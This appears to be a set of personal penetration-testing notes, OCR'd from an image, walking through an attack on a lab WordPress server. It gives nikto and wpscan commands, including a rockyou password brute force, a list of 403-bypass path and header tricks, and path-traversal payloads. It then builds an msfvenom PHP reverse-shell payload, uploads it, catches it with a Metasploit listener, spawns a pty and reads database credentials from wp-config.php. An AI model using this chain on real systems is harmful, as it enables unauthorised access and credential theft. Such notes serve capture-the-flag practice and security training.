 •	nikto - Scan web server for known vulnerabilities
o	nikto -h
o	nikto -host <target ip>
o	nikto -host 192.168.1.36 -port 12380
•	wpscan - WordPress Security Scanner
o	wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u
o	wpscan --url https://192.168.1.36:12380/blogblog/ -e vp -e vt -e u --disable-tls-checks 
o	wpscan --url https://192.168.1.36:12380/blogblog/ -U john -P /usr/share/wordlists/rockyou.txt --disable-tls-checks
o	after passwprd cracked go on the targeted website and loggin.

#How to Bypass 403 restrictions?
•	Adding in URL Paths: Adding this in paths of the URL and the file which is forbidden
o	/*		(EX: xyz.com/secret/*)
o	/%2f/	(EX: xyz.com/%2f/secret.txt/)
o	/./		(EX: xyz.com/secret/./)
o	//		(EX: xyz.com//secret)
o	/*/		(EX: xyz.com/secret/*/)
•	Adding Headers in request :By adding different headers in request with value 127.0.0.1 can also help in bypassing restrictions.
o	X-Custom-IP-Authorization
o	X-Forwarded-For
o	X-Forward-For
o	X-Remote-IP
o	X-Originating-IP
o	X-Remote-Addr
o	X-Client-IP
o	X-Real-IP
•	New 403 Bypass 
o	Download.php?file=../config.php ==> 403
o	Download.php?file=. /config.php⨀ ==> 200
o	Download.php?file=⊡ /config.php⨀  ==> 200
o	Download.php?file= .⊡ /config.php  ==> 200

•	msfvenom - a Metasploit standalone payload generator.
o	Also, a replacement for msfpayload and msfencode.
o	It is use for creating a payload.
o	Payload is a malware or a malicious code that the threat actor intends to deliver to the victim.
o	msfvenom -p php/mererpreter/reverse_tcp LHOST=192.168.1.2 LPORT=1337 -f raw
o	will get a raw payload code.
o	Remove /* from the beginning and create .php file.
o	And then upload these .php file in the target’s plugins.
o	Before executing this payload file. We need to create listener
o	Msfconsole
o	msf6 > use exploit/multi/handler
o	> set LHOST 192.168.1.2
o	> set LPORT 1337
o	> set payload php/meterpreter/reverse_tcp
o	> run
o	Now the Listner is started to u can execuite the .php file that u have uploaded in target server https://192.168.1.35:12380/blogblog/wp-content/uploads/
o	meterpreter > shell
o	python3 -c 'import pty;pty.spawn("/bin/bash")'
o	cd /home/www
o	cd
o	cd /var/www/https/blogblog
o	cat wp-config.php
o	here we got phpadmin user and passwd
o	/** MySQL database username & password */
o	define('DB_USER', 'root');
o	define('DB_PASSWORD', 'plbkac');
o	but we need to escalating privilege
o	cd /home/www
o	lsb_release -a